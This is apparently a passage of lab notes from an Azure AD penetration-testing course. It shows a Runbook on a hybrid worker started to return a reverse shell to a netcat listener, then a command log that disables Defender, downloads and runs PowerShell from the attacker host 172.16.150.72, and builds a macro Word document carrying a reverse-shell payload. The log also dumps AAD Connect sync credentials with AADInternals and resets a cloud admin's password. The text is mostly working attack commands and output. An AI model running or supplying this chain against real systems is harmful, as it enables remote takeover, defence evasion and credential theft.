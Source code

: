 ```powershell
State                 : Published
ResourceGroupName     : Engineering
AutomationAccountName : HybridAutomation
Name                  : student72
CreationTime          : 3/7/2024 1:33:23 AM -08:00
LastModifiedTime      : 3/7/2024 1:34:28 AM -08:00
Description           :
```

- We can now start a **netcat** listener on our attack machine and start the Runbook to receive a reverse shell back.
```powershell
PS C:\Windows\system32> Start-AzAutomationRunbook -RunbookName student72 -RunOn Workergroup1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering


ResourceGroupName      : Engineering
AutomationAccountName  : HybridAutomation
JobId                  : 6c43bd37-3ab6-446e-b7f9-cd1cc9221c28
CreationTime           : 3/7/2024 1:35:44 AM -08:00
Status                 : New
StatusDetails          : None
StartTime              :
EndTime                :
Exception              :
LastModifiedTime       : 3/7/2024 1:35:44 AM -08:00
LastStatusModifiedTime : 3/7/2024 1:35:44 AM -08:00
JobParameters          : {}
RunbookName            : student72
HybridWorker           : Workergroup1
StartedBy              :
```

- To remove a Runbook we can execute the following command.
```powershell
PS C:\Windows\system32> Remove-AzAutomationRunbook -Name "student72" -AutomationAccountName HybridAutomation -ResourceGroupName Engineering
```

- To search a specific Runbook we can execute the following command.
```powershell
PS C:\Windows\system32> Get-AzAutomationRunbook -AutomationAccountName HybridAutomation -ResourceGroupName Engineering | Where-Object -Property Name -eq student72
```

- After we run the Runbook we receive a reverse shell back.
```powershell
PS C:\AzAD\Tools> C:\AzAD\Tools\netcat-win32-1.12\nc64.exe -lvnp 5555
listening on [any] 5555 ...
connect to [172.16.150.72] from (UNKNOWN) [172.16.1.20] 63771

Windows PowerShell running as user DEFENG-ADCSRV$ on DEFENG-ADCSRV
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\ProgramData\Microsoft\System Center\Orchestrator\7.2\SMA\Sandboxes\02f4tbvt.hsr\Temp\aei0i3uo.5e5>
```


[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"